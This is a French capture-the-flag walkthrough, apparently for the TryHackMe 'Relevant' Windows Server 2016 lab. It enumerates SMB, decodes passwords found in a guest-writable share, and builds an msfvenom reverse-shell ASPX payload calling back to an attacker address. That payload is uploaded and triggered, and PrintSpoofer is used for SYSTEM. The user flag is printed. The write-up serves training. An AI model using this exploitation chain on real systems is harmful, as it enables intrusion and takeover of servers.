

# Relevant

Vous avez été assigné à un client qui veut un test de pénétration réalisé sur un environnement devant être mis en production dans sept jours. 

## **Portée du travail**

Les demandes du client qu'un ingénieur procède à une évaluation de l'environnement virtuel fourni. Le client a demandé ce minimum des informations sont fournies sur l'évaluation, en voulant l'engagement conduite depuis les yeux d'un acteur malveillant (pénétration de boîte noire test). Le client vous a demandé de sécuriser deux drapeaux (pas d'emplacement fourni) comme preuve d'exploitation:

- User.txt
- Root.txt

En outre, le client a fourni les indemnités de portée suivantes:

- Tous les outils ou techniques sont autorisés dans cet engagement, mais nous
vous demandons de tenter d'abord l'exploitation manuelle
- Localisez et notez toutes les vulnérabilités trouvées
- Soumettre les drapeaux découverts sur le tableau de bord
- Seule l'adresse IP attribuée à votre machine est en portée
- Trouver et signaler TOUTES les vulnérabilités (oui, il y a plus d'un chemin à parcourir)

(Rôle hors)
I vous encourager à aborder ce défi comme un test de pénétration réel. Envisager de rédiger un rapport, pour inclure un résumé exécutif, l'évaluation de la vulnérabilité et de l'exploitation, et les suggestions d'assainissement, car cela vous sera bénéfique en préparation pour le testeur de pénétration professionnel certifié eLearnSecurity ou la carrière comme un testeur de pénétration sur le terrain.

# ENUMERATION

Target_IP = 10.82.170.24    

OS = Windows Server 2016 Standard Evaluation 14393 x64

Computer name: Relevant
NetBIOS computer name: RELEVANT\x00
Workgroup: WORKGROUP\x00

```jsx
┌──(hackthus💀kali)-[~/Workspace/Tryhackme/Relevant]
└─$ export target=10.82.170.24                                           
```

Test de connectivité à la machine 

```jsx
┌──(hackthus💀kali)-[~/Workspace/Tryhackme/Relevant]
└─$ ping $target -c 4              
PING 10.82.170.24 (10.82.170.24) 56(84) bytes of data.
64 bytes from 10.82.170.24: icmp_seq=1 ttl=126 time=41.2 ms
64 bytes from 10.82.170.24: icmp_seq=2 ttl=126 time=35.6 ms
64 bytes from 10.82.170.24: icmp_seq=3 ttl=126 time=70.0 ms
64 bytes from 10.82.170.24: icmp_seq=4 ttl=126 time=36.7 ms

--- 10.82.170.24 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3006ms
rtt min/avg/max/mdev = 35.632/45.885/70.040/14.097 ms
```

## Nmap

```jsx
┌──(hackthus💀kali)-[~/Workspace/Tryhackme/Relevant]
└─$ sudo nmap -Pn -sV -sC -v $target -T4 -oN Nmap/scan_tcp_version 

Nmap scan report for 10.82.170.24
Host is up (0.040s latency).
Not shown: 995 filtered tcp ports (no-response)

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server

135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds (workgroup: WORKGROUP)

3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Relevant
| Issuer: commonName=Relevant
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-01-25T08:24:24
| Not valid after:  2026-07-27T08:24:24
| MD5:   e162:5d04:31a3:b626:012e:04f2:ae90:e126
|_SHA-1: 2d06:1ed7:a033:24e9:1c3e:dec8:48ec:3655:4ee3:05a4
|_ssl-date: 2026-01-26T08:39:25+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2026-01-26T08:38:45+00:00
Service Info: Host: RELEVANT; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-01-26T08:38:46
|_  start_date: 2026-01-26T08:24:24
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2026-01-26T00:38:49-08:00
|_clock-skew: mean: 1h35m59s, deviation: 3h34m41s, median: -1s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

Ajoutons le hostname de la cible dans notre fichier /etc/hosts

```jsx
┌──(root💀kali)-[/home/hackthus/Workspace/Tryhackme/Relevant]
└─# echo "10.82.184.189 Relevant" >> /etc/hosts
```

## Port 80 (Http)

### Gobuster

Nothing

## port 445 (SMB)

scan Nmap

```jsx
┌──(hackthus💀kali)-[~/Workspace/Tryhackme/Relevant]
└─$ sudo nmap --script vuln -p445 $target -T4
Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-26 13:03 CET
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for Relevant (10.82.129.2)
Host is up (0.037s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms10-054: false
```

### Shares Enumeration

Acces anonymes disabled

```jsx
┌──(hackthus💀kali)-[~/Workspace/Tryhackme/Relevant]
└─$ nxc smb $target -u '' -p '' --shares
SMB         10.82.170.24    445    RELEVANT         [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:RELEVANT) (domain:Relevant) (signing:False) (SMBv1:True)
SMB         10.82.170.24    445    RELEVANT         [-] Relevant\: STATUS_ACCESS_DENIED 
SMB         10.82.170.24    445    RELEVANT         [-] Error enumerating shares: Error occurs while reading from remote(104)
```

Avec l’utilisateur guest (invité) , nous avons un acces en lecture et en ecriture au partage nt4wrksv

```jsx
┌──(hackthus💀kali)-[~/Workspace/Tryhackme/Relevant]
└─$ nxc smb $target -u 'guest' -p '' --shares
SMB         10.82.170.24    445    RELEVANT         [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:RELEVANT) (domain:Relevant) (signing:False) (SMBv1:True)
SMB         10.82.170.24    445    RELEVANT         [+] Relevant\guest: 
SMB         10.82.170.24    445    RELEVANT         [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687.
SMB         10.82.170.24    445    RELEVANT         [*] Enumerated shares
SMB         10.82.170.24    445    RELEVANT         Share           Permissions     Remark
SMB         10.82.170.24    445    RELEVANT         -----           -----------     ------
SMB         10.82.170.24    445    RELEVANT         ADMIN$                          Remote Admin
SMB         10.82.170.24    445    RELEVANT         C$                              Default share
SMB         10.82.170.24    445    RELEVANT         IPC$            READ            Remote IPC
SMB         10.82.170.24    445    RELEVANT         nt4wrksv        READ,WRITE                                                                             
```

### Users Enumeration

Utilisateurs découvert avec un brute-force de rid, 

```jsx
┌──(hackthus💀kali)-[~/Workspace/Tryhackme/Relevant]
└─$ nxc smb $target -u 'guest' -p '' --rid-brute
SMB         10.82.170.24    445    RELEVANT         [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:RELEVANT) (domain:Relevant) (signing:False) (SMBv1:True)
SMB         10.82.170.24    445    RELEVANT         [+] Relevant\guest: 
SMB         10.82.170.24    445    RELEVANT         [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687.
SMB         10.82.170.24    445    RELEVANT         500: RELEVANT\Administrator (SidTypeUser)
SMB         10.82.170.24    445    RELEVANT         501: RELEVANT\Guest (SidTypeUser)
SMB         10.82.170.24    445    RELEVANT         503: RELEVANT\DefaultAccount (SidTypeUser)
SMB         10.82.170.24    445    RELEVANT         513: RELEVANT\None (SidTypeGroup)
SMB         10.82.170.24    445    RELEVANT         1002: RELEVANT\Bob (SidTypeUser)
```

connexion au partage : nt4wrksv

```jsx
┌──(hackthus💀kali)-[~/Workspace/Tryhackme/Relevant]
└─$ smbclient //$target/nt4wrksv -N    
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Jul 25 23:46:04 2020
  ..                                  D        0  Sat Jul 25 23:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020

                7735807 blocks of size 4096. 5102807 blocks available
smb: \> get passwords.txt
getting file \passwords.txt of size 98 as passwords.txt (0.7 KiloBytes/sec) (average 0.7 KiloBytes/sec)
smb: \> exit
```

Le fichier passwords.txt contient des informations encoder en base64

```jsx
┌──(hackthus💀kali)-[~/Workspace/Tryhackme/Relevant]
└─$ cat passwords.txt                
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk   
```

Décodage des informations

```jsx
┌──(hackthus💀kali)-[~/Workspace/Tryhackme/Relevant]
└─$ echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d 
Bob - !P@$$W0rD!123
   
echo "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d 
Bill - Juw4nnaM4n420696969!$$$                                                                                                                             
```

Nous avons deux couples d’identifiant , username : Bob - password:  !P@$$W0rD!123  et Bill password: Juw4nnaM4n420696969!$$$ 

Validation des couples d’identifiant

```jsx
┌──(hackthus💀kali)-[~/Workspace/Tryhackme/Relevant]
└─$ nxc smb $target -u 'bob' -p '!P@$$W0rD!123'        
SMB         10.82.184.189   445    RELEVANT         [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:RELEVANT) (domain:Relevant) (signing:False) (SMBv1:True)
SMB         10.82.184.189   445    RELEVANT         [+] Relevant\bob:!P@$$W0rD!123
```

```jsx
┌──(hackthus💀kali)-[~/Workspace/Tryhackme/Relevant]
└─$ nxc smb $target -u 'bill' -p 'Juw4nnaM4n420696969!$$$'    
SMB         10.82.184.189   445    RELEVANT         [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:RELEVANT) (domain:Relevant) (signing:False) (SMBv1:True)
SMB         10.82.184.189   445    RELEVANT         [+] Relevant\bill:Juw4nnaM4n420696969!$$$ (Guest)
```

## Port 3389 (RDP)

Vérifions les utilisateurs qui ont un acces rdp à la machine.

L’utilisateur bob à un acces rdp

```jsx
┌──(hackthus💀kali)-[~/Workspace/Tryhackme/Relevant]
└─$ nxc rdp $target -u 'bob' -p '!P@$$W0rD!123'           
RDP         10.82.191.219   3389   RELEVANT         [*] Windows 10 or Windows Server 2016 Build 14393 (name:RELEVANT) (domain:Relevant) (nla:True)
RDP         10.82.191.219   3389   RELEVANT         [+] Relevant\bob:!P@$$W0rD!123 
```

```jsx
┌──(hackthus💀kali)-[~/Workspace/Tryhackme/Relevant]
└─$ nxc rdp $target -u 'Bill' -p 'Juw4nnaM4n420696969!$$$' 
RDP         10.82.191.219   3389   RELEVANT         [*] Windows 10 or Windows Server 2016 Build 14393 (name:RELEVANT) (domain:Relevant) (nla:True)
RDP         10.82.191.219   3389   RELEVANT         [-] Relevant\Bill:Juw4nnaM4n420696969!$$$ (encoded_data must be a byte string, not NoneType)
```

Impossible de se connecter au service RDP avec l’utilisateur bob

## Exploitation

### Port 445 (smb)

Scan Vuln 

```jsx
┌──(hackthus💀kali)-[~/Workspace/Tryhackme/Relevant]
└─$ sudo nmap --script vuln -p445 $target -T4

Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-26 13:03 CET
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for Relevant (10.82.129.2)
Host is up (0.037s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|       
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms10-054: false
```

```jsx
┌──(hackthus💀kali)-[~/Workspace/Tryhackme/Relevant]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.128.196 LPORT=8000 -f aspx -o shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3412 bytes
Saved as: shell.aspx
```

Transférer le fichier sur la cible 

```jsx
┌──(hackthus💀kali)-[~/Workspace/Tryhackme/Relevant]
└─$ smbclient -U 'bob' \\\\10.82.129.2\\nt4wrksv
Password for [WORKGROUP\bob]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Jul 25 23:46:04 2020
  ..                                  D        0  Sat Jul 25 23:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020

		7735807 blocks of size 4096. 5100859 blocks available
		
smb: \> put shell.aspx
putting file shell.aspx as \shell.aspx (25.2 kb/s) (average 25.2 kb/s)
smb: \> dir
  .                                   D        0  Mon Jan 26 13:39:11 2026
  ..                                  D        0  Mon Jan 26 13:39:11 2026
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020
  shell.aspx                          A     3412  Mon Jan 26 13:39:12 2026

		7735807 blocks of size 4096. 5100858 blocks available
smb: \> 
```

mettre en place en listener avec nc 

```jsx
┌──(hackthus💀kali)-[~/Workspace/Tryhackme/Relevant]
└─$ nc -nlvp 8000                
listening on1 [any] 8000 ...
```

Exécuté le payload shell.aspx dépuis l’interface du server web  [http://10.81.174.4:49663/nt4wrksv/shell.aspx](http://10.81.174.4:49663/nt4wrksv/shell.aspx)



Nous obtenons un shell inversé sur la cible 


## Post Exploitation

### Enumeration

```jsx
User Name                  SID                                                          
========================== =============================================================
iis apppool\defaultapppool S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415

```

Nous somme l’utilisateur iis apppool\defaultapppool

```jsx
c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool
```

Trois privilèges sont SeChangeNotifyPrivilege , SeImpersonatePrivilege  activés pour l’utilisateur defaultapppool 


Groups


listing de la racine, nous avons un dossier non standar


Flag du user

```jsx
c:\windows\system32\inetsrv>type c:\users\bob\desktop\user.txt                                                       
type c:\users\bob\desktop\user.txt
THM{fdk4ka34vk346ksxfr21tg789ktf45}
c:\windows\system32\inetsrv>
```

## Privileges Escalation

### SeImpersonatePrivilege

Le privilège SeImpersonatePrivilege de Windows permet à un utilisateur ou un processus d'usurper le contexte de sécurité d'un autre utilisateur ou compte. Ce privilège autorise un processus à prendre l'identité d'un autre utilisateur et à effectuer des actions ou accéder à des ressources comme s'il était cet utilisateur

Nous allons utilisé le binaire PrintSpoofer64.exe liien : https://github.com/itm4n/PrintSpoofer/releases

Transfert du PrintSpoofer64.exe sur la cible via le partage smb existant

```jsx
┌──(hackthus💀kali)-[~/Tools]
└─$ smbclient //$target/nt4wrksv -N                                     
Try "help" to get a list of possible commands.
smb: \> put PrintSpoofer64.exe
putting file PrintSpoofer64.exe as \PrintSpoofer64.exe (56.5 kb/s) (average 56.5 kb/s)
smb: \> dir
  .                                   D        0  Tue Jan 27 22:10:21 2026
  ..                                  D        0  Tue Jan 27 22:10:21 2026
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020
  PrintSpoofer64.exe                  A    27136  Tue Jan 27 22:10:22 2026
  shell.aspx                          A     3412  Tue Jan 27 21:59:51 2026
```

Listé les partages présent sur l’hôte

```jsx
c:\Windows\Tasks>net share
net share

Share name   Resource                        Remark
-------------------------------------------------------------------------------
C$           C:\                             Default share                     
IPC$                                         Remote IPC                        
ADMIN$       C:\Windows                      Remote Admin                      
nt4wrksv     C:\inetpub\wwwroot\nt4wrksv     
The command completed successfully.
```

Nous déplaçons le fichier printSpooler64.exe  du partage vers le dossier courant c:\Windows\Tasks

```jsx
c:\Windows\Tasks>move C:\inetpub\wwwroot\nt4wrksv\PrintSpoofer64.exe .
move C:\inetpub\wwwroot\nt4wrksv\PrintSpoofer64.exe .
        1 file(s) moved.

c:\Windows\Tasks>dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5
 
 Directory of c:\Windows\Tasks

01/27/2026  01:23 PM    <DIR>          .
01/27/2026  01:23 PM    <DIR>          ..
01/27/2026  01:10 PM            27,136 PrintSpoofer64.exe
               1 File(s)         27,136 bytes
               2 Dir(s)  20,884,054,016 bytes free

```

Nous executons PrintSpoofer64.exe -i -c cmd

```jsx
c:\Windows\Tasks>.\PrintSpoofer64.exe -i -c cmd
.\PrintSpoofer64.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
```

Nous vérifions à nouveau  qui nous somme avec la commande whoami et nous somme maintenant nt authority\system soit l’utilisateur avec les plus hauts privilèges sur le système

```jsx
C:\Windows\system32>whoami
nt authority\system
```

Allons maintenant récupérer le Flag contenu dans le fichier root.txt


THE END

by hackthus :-)